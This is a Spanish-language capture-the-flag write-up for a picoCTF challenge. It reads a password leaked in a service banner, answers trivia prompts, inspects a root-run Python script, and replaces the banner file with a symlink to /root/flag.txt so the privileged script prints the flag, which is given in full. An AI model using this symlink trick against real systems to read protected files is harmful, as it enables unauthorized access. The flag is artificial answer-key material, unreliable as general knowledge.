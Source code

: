 ### Descripción
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 57800`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 57205`. From the above information abuse the machine and find the flag in the /root directory.

Hints:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

### Solución
Entramos a los servidores indicados, el primero para observar la contraseña y el segundo para introducir algunos datos y ver si nos dan la bandera:

```
┌──(kali㉿kali)-[~/picoCTF/parcial1/dontyoulovebanners]
└─$ nc tethys.picoctf.net 57800
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
                                                                                              
┌──(kali㉿kali)-[~/picoCTF/parcial1/dontyoulovebanners]
└─$ nc tethys.picoctf.net 57205
*************************************
*************WELCOME***************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON 
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Por el momento no muestra la bandera:
```
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banne
cat banner 
*************************************
*************WELCOME***************
*************************************
player@challenge:~$ cat banner
cat banner
*************************************
*************WELCOME***************
*************************************
player@challenge:~$  cat text
 cat text
keep digging
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 16 00:03 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat flag.txt
cat flag.txt
cat: flag.txt: No such file or directory
```

No es posible hacer un cat al a bandera.
Observamos el script:
```
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if _name_ == "_main_":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*")
      print("DEFAULT BANNER*")
      print("Please supply banner in /home/player/banner")
      print("*")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Borramos el archivo banner:

```
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
```

Esto para crear un enlace que el banner apunte a la bandera:
```
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Ahora si se nos muestra la bandera:
```
┌──(kali㉿kali)-[~/picoCTF/parcial1/dontyoulovebanners]
└─$ nc tethys.picoctf.net 57205
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password?
```

Esto se hace ya que no nos permitía acceder a la bandera de otra forma, por lo que se hizo de esta manera

Flag:
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
### Notas adicionales

### Referencias
